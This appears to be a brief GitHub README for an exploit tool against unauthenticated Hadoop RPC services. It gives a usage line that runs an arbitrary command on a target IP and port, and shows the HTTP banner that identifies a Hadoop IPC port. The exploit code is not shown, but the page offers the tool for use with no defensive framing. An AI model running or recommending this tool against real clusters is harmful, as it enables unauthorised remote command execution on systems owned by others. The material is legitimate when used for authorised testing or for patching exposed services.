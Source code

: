 # hadoop-rpc-unauthorized
Hadoop unauthorized  vulnerability

java -jar hadoop-rpc.jar target_ip:port cmd
![image](./image/example.png)  
hadoop rpc banner 
```HTTP/1.1 404 Not Found\r\nContent-type: text/plain\r\n\r\nIt looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.\r\n
```